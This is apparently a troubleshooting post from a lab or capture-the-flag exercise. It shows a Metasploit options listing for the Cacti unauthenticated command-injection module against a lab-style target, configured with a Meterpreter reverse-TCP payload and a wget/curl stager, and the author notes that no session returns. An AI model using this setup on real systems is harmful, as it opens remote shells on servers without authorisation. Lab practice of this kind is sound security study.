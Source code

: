 

    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > options

    Module options (exploit/linux/http/cacti_unauthenticated_cmd_injection):

       Name                Current Setting  Required  Description
       ----                ---------------  --------  -----------
       HOST_ID                              no        The host_id value to use. By default, the module will try to bruteforce this.
       LOCAL_DATA_ID                        no        The local_data_id value to use. By default, the module will try to bruteforce this.
       Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS              10.10.11.211     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                                      metasploit.md
       RPORT               80               yes       The target port (TCP)
       SSL                 false            no        Negotiate SSL/TLS for outgoing connections
       SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
       TARGETURI           /                yes       The base path to Cacti
       URIPATH                              no        The URI to use for this exploit (default is random)
       VHOST                                no        HTTP server virtual host
       X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwarded-For HTTP header. This should be resolvable to a hostna
                                                      me in the poller table.


       When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or
                                           0.0.0.0 to listen on all addresses.
       SRVPORT  8000             yes       The local port to listen on.


    Payload options (linux/x86/meterpreter/reverse_tcp):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.6       yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       1   Automatic (Linux Dropper)



When I run this, it finds it vulnerable, sends a stager, but fails to
return a session:
